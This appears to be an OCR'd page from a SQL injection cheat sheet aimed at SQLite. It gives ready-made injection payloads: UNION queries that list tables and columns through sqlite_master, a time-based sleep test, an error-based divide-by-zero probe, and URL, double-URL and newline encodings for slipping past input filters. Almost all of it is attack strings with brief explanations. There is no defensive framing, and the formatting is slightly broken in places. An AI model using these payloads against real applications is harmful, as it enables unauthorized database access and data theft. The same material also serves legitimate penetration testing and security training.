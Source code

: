 ### **Enumerating the Database**
#### **List All Tables**
```sql
' UNION SELECT name, NULL, NULL FROM sqlite_master WHERE type='table' --
```
- **Explanation**:
  - `sqlite_master` is an SQLite system table that stores schema information.
  - `type='table'` filters only tables.

#### **List Columns of a Table**
```sql
' UNION SELECT sql, NULL, NULL FROM sqlite_master WHERE name='users' --
```
- **Explanation**:
  - Retrieves the `CREATE TABLE` statement for the `users` table, showing column names and types.

---

### **Time-Based SQL Injection**
#### **Test with Sleep Function**
- Delay the response to confirm SQL injection:
  ```sql
  admin' AND (SELECT 1 FROM users WHERE username='admin' AND sleep(5)) --
  ```
  
- **Explanation**:
  - If the database pauses for 5 seconds, the injection is successful.

---

### **Error-Based SQL Injection**
#### **Cause an Error to Extract Information**

```sql
`admin' AND (SELECT 1/0 FROM users) --`


- **Explanation**:
  - Forces a division by zero error, which may reveal information about the database.

---

### **Additional Notes**

### **Encoding to Bypass Filters**
#### **URL Encoding**
- Encode special characters to bypass simple input filters:
  - `;` → `%3B`
  - `'` → `%27`
  - `--` → `%2D%2D`

#### **Double URL Encoding**
- Encode the already encoded characters:
  - `;` → `%253B`
  - `'` → `%2527`

#### **Newline Encoding**
- Use newline characters (`%0A`) to break out of restricted inputs:
  ```sql
  admin%0AAND%0A1%3D1 --
  ```
- **Explanation**: The newline (`%0A`) can sometimes bypass character filters or restrictions in SQL parsers.
